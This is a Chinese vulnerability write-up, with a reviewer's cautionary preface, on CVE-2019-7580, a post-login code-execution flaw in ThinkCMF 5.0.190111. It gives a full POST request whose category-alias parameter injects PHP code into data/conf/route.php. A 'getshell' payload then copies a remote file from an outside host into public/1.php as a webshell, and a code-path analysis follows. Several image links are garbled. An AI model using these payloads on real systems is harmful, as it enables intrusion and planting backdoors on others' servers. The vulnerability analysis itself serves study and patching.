## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：后台portal分类新增权限及有效会话，路由配置可写/被include

- **结论使用边界（1）**：明确多阶段入库到route.php，有价值；原始Content-Length183与短正文不匹配。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **操作与副作用边界（2）**：正文补充eval/fputs失败、copy成功但站点崩溃及清route恢复必须保留，不能称无副作用通用getshell。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **事实待核（3）**：需注意清整个route.php会丢合法路由，应恢复备份而非把破坏性清空当通用修复。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **代码与转录边界（4）**：首图误指任意包含条目，多图尾片污染；sef/validata函数名转录错误。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2019-7580）ThinkCMF 5.0.190111 后台代码执行漏洞
=====================================================

一、漏洞简介
------------

二、漏洞影响
------------

ThinkCMF 5.0.190111

三、复现过程
------------

### 0x01 利用过程：

后台登录状态下，
1、将payload插入数据库并读取然后写入data/conf/route.php文件

    POST /portal/admin_category/addpost.html HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 183
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    Cookie: PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
    Connection: close

    parent_id=0&name=111&alias=1'%3D%3Earray(%22%22)%2Cphpinfo()%2C'2

2、然后访问：

    /portal/admin_category/index.html

触发

    include data/conf/route.php

操作，执行payload。下图以执行sleep(5)作为演示。

ThinkCMF5.0.190111后台代码执行漏洞/media/rId25.png)

ThinkCMF5.0.190111后台代码执行漏洞/media/rId26.gif)

#### 补充

poc只是phpinfo,用eval一句话，或者用fputs写马 等都会报错

直接getshell exp

    1'=>array("",""),copy("http://t00ls.com/1.txt","1.php"),'2

这样网站也会崩掉

但是会再public下生成1.php

得快速连上，再清空thinkcmf\\data\\conf\\route.php 文件 网站方可恢复正常

### 0x02 利用过程与分析

#### 1、将payload插入数据库，写入data/conf/route.php文件

程序的入口是index.php,在index.php中\\think\\App::run()执行应用。

ThinkCMF5.0.190111后台代码执行漏洞/media/rId30.png)

在App.php的run()函数139行，执行sef::exec();

ThinkCMF5.0.190111后台代码执行漏洞/media/rId31.png)

通过解析url，得到处理此次请求的控制器、类、函数，即`AdminCategoryController.php`的`addPost`函数。然后调用`self::invokeMethod()`。

ThinkCMF5.0.190111后台代码执行漏洞/media/rId32.png)

通过反射执行`AdminCategoryController.php`的`addPost`函数。
在addPost函数中，从\$this-\>request-\>param()函数中得到请求中的参数传递给\$data。

ThinkCMF5.0.190111后台代码执行漏洞/media/rId33.png)

然后通过\$this-\>validata调用父类(./simplewind/thinkphp/library/think/Controller.php)的validata函数进行过滤。然后将\$data传入`./app/portal/model/PortalCategoryModel.php`的addCategory函数进行实际的\"添加分类\"操作。

ThinkCMF5.0.190111后台代码执行漏洞/media/rId34.png)

在addCategory函数中，184行这一句：

    $findRoute = $this->where('full_url', $fullUrl)->find();

通过查询数据中是否存在对应的url，由于是第一次插入，所以这里并没有查到。
154行和155行通过`setRoute`函数对数据库进行了两次插入操作。
根入`setRoute`函数，

ThinkCMF5.0.190111后台代码执行漏洞/media/rId35.png)

其中\$fullUrl和\$url的值如截图所示。 继续跟，

ThinkCMF5.0.190111后台代码执行漏洞/media/rId36.png)

在34行从数据库中查询查询相关数据，

    $routes      = $this->where("status", 1)->order("list_order asc")->select();

在`addCategory`函数的157行调用

    $routeModel->getRoutes(true);

最终得到`$allroutes`的值,创建`data/conf`目录，然后拼接待写入的`route.php`文件的完整路径，最后调用`file_put_contents()`完成写入。可见这个漏洞在于没有对`alias`参数中的单引号进行过滤，导致可通过闭合前后的单引号插入用户可控的payload。
写入前后对比如下：

ThinkCMF5.0.190111后台代码执行漏洞/media/rId37.png)

#### 2、触发payload执行

带着登录的cookie访问`/portal/admin_category/index.html`，调用`routeCheck`函数进行url路由检测

ThinkCMF5.0.190111后台代码执行漏洞/media/rId39.png)

这里先

    include app/route.php

ThinkCMF5.0.190111后台代码执行漏洞/media/rId40.png)

然后，

    include data/conf/route.php

ThinkCMF5.0.190111后台代码执行漏洞/media/rId41.png)

最终执行我们的payload：`phpinfo()`。

ThinkCMF5.0.190111后台代码执行漏洞/media/rId42.png)

参考链接
--------

> <https://xz.aliyun.com/t/3997#toc-6>
>
> <https://www.t00ls.net/thread-55060-1-1.html>
